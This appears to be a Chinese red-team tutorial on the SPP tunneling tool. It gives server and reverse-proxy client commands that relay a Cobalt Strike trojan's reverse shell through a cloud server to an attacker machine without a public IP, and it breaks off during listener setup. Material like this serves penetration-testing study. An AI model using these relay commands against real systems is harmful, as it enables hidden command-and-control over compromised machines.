 # 前言

在上篇文章中已经详细的介绍了，隧道搭建与代理转发这两方面的基础知识，这里就不在赘述了，直接演示剩下的两个工具，SPP与NPS这两个工具。

# SPP

关于SPP的具体使用方式可以直接去github上查询，讲解的很详细，这里只是简单的演示一下.

支持的协议：tcp、udp、udp、icmp、http、kcp、quic

支持的类型：正向代理、反向代理、socks5正向代理、socks5反向代理

[SPP下载](https://github.com/esrrhs/spp)

## SPP代理通信

这里的代理通信和前几个是一样的工作原理，采用的是反向代理，这里攻击机无出网IP，生成的木马无法反弹shell，而这时候采用代理方式可以进行解决，准备一台云服务器，将云服务器设置为服务端，攻击机设置为客户端，通过某个端口将客户端与服务端连接起来，然后通过设置SPP的反向代理，将本地的某个端口映射到服务器的某个端口，当有木马访问服务器的端口的时候，相当于去访问攻击机的端口，而攻击机只需要监听本地的端口，即可实现上线。

![image-20230615133014206](https://s2.loli.net/2023/06/15/GDqm7MQXgynrlSI.png)



### 服务端配置

这里需要提前准备一台云服务器，然后给文件添加执行权限。

```
chmod +x spp  ##添加执行权限
./spp -type server -proto tcp -listen :8888 ##启动spp，并设置为服务端，通信协议为tcp，监控本地的8888端口。
```

![image-20230615133441390](https://s2.loli.net/2023/06/15/7pquPnr8IoJ65Mh.png)

### 客户端配置

这里在本地攻击机上设置即可，主要就是当有机器去访问服务器的7777端口，服务器就会将流量转发到本地的5555端口上，相当于访问服务器的7777端口就是访问本地的5555端口。

```
chmod +x spp  ##添加执行权限
./spp -name "text" -type reverse_proxy_client -server 服务器IP地址:8888 -fromaddr :7777 -toaddr :5555 -proxyproto tcp    ## 设置一个名字，连接服务器的IP地址及端口，将服务器的端口7777映射到本地的端口5555上，设置通信协议为tcp。
```

![image-20230615133724008](https://s2.loli.net/2023/06/15/YQBjgDA9CtWO54k.png)

### CS设置

这里CS需要设置两个监听器，一个用于生成木马，一个用于接收反弹shell。

#### 设置生成的监听器

这里的监听器IP地址要设置为服务端的IP地址，端口为刚刚的7777，相当于木马执行后，会去访问服务端的7777端，而之前的设置就是将服务端的7777端口信息转发到本地5555.
